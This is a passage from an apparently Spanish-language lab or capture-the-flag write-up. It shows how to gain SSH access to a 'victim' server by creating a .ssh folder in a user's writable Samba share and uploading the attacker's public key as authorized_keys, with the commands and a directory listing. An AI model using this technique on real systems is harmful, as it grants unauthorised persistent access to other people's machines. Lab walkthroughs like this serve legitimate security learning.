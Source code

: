 Veremos que `samba` esta compartiendo de forma local la carpeta del usuario `macarena` en el servidor victima, pero no podremos salirnos de esta carpeta.

Lo que si podemos hacer es crear y cargar carpetas y archivos, por o que haremos lo siguiente.

Crearemos la carpeta `.ssh/` y dentro de ella cargaremos nuestra `id_rsa.pub` de nuestro host a parte de crear un archivo `authorized_keys` que contenga nuestro `id_rsa.pub` para podernos conectar desde el ssh proporcionando nuestra `id_rsa` de nuestro host.

```shell
mkdir .ssh
```

Si no tenemos una clave publica de nuestro usuario en nuestro host, la crearemos de la siguiente forma.

```shell
ssh-keygen -t rsa -b 4096
```

Copiaremos nuestra `id_rsa.pub` a nuestro directorio actual.

```shell
cp ~/.ssh/id_rsa.pub .
```

Despues dentro de `samba` cargaremos nuestro archivo `id_rsa.pub` de nuestro host dentro del `.ssh/`.

```shell
cd .ssh/
put id_rsa.pub
```

Ahora en nuestro host copiaremos el `id_rsa.pub` y lo pasaremos a un archivo que crearemos llamado `authorized_keys`.

```shell
cat id_rsa.pub > authorized_keys
```

Volviendo a `samba` cargaremos el archivo `authorized_keys` de la siguiente forma.

```shell
put authorized_keys
```

Y si listamos, tendremos que ver lo siguiente.

```
.                                   D        0  Mon Aug 19 13:54:53 2024
  ..                                  D        0  Mon Aug 19 13:50:20 2024
  authorized_keys                     A      738  Mon Aug 19 13:54:53 2024
  id_rsa.pub                          A      738  Mon Aug 19 13:52:42 2024

		100856592 blocks of size 1024. 79538604 blocks available
```

Ahora ya podremos conectarnos por ssh mediante nuestra `id_rsa` de la siguiente forma.

## SSH
